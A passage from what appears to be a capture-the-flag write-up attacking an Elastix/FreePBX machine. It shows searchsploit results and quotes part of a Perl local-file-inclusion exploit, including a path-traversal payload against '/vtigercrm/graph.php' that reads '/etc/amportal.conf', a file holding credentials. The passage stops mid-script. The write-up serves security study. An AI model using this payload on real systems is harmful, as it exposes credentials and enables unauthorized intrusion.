 It seems we've enumerated enough for now. With what we have, we can try to find an exploit encompassing Elastix and PBX. 

**FOOTHOLD AND EXPLOITATION**

Using searchsploit, we can look up elastix in the console:
```
$ searchsploit elastix                                                                                1 ⨯
-------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                            |  Path
-------------------------------------------------------------------------- ---------------------------------
Elastix - 'page' Cross-Site Scripting                                     | php/webapps/38078.py
Elastix - Multiple Cross-Site Scripting Vulnerabilities                   | php/webapps/38544.txt
Elastix 2.0.2 - Multiple Cross-Site Scripting Vulnerabilities             | php/webapps/34942.txt
Elastix 2.2.0 - 'graph.php' Local File Inclusion                          | php/webapps/37637.pl
Elastix 2.x - Blind SQL Injection                                         | php/webapps/36305.txt
Elastix < 2.5 - PHP Code Injection                                        | php/webapps/38091.php
FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution                    | php/webapps/18650.py
-------------------------------------------------------------------------- ---------------------------------
```  
The results show two very promising exploits: a Remote Code Execution exploit and a Local File Inclusion one. 

Looking at the LFI exploit we see:
```
Elastix is prone to a local file-include vulnerability because it fails to properly sanitize user-supplied input.

An attacker can exploit this vulnerability to view files and execute local scripts in the context of the web server process. This may aid in further attacks.

Elastix 2.2.0 is vulnerable; other versions may also be affected.
#------------------------------------------------------------------------------------# 
#Elastix is an Open Source Sofware to establish Unified Communications. 
#About this concept, Elastix goal is to incorporate all the communication alternatives,
#available at an enterprise level, into a unique solution.
#------------------------------------------------------------------------------------#
############################################################
# Exploit Title: Elastix 2.2.0 LFI
# Google Dork: :(
# Author: cheki
# Version:Elastix 2.2.0
# Tested on: multiple
# CVE : notyet
# romanc-_-eyes ;) 
# Discovered by romanc-_-eyes
# vendor http://www.elastix.org/

print "\t Elastix 2.2.0 LFI Exploit \n";
print "\t code author cheki   \n";
print "\t 0day Elastix 2.2.0  \n";
print "\t email: anonymous17hacker{}gmail.com \n";

#LFI Exploit: /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action

use LWP::UserAgent;
print "\n Target: https://ip ";
chomp(my $target=<STDIN>);
$dir="vtigercrm";
$poc="current_language";
```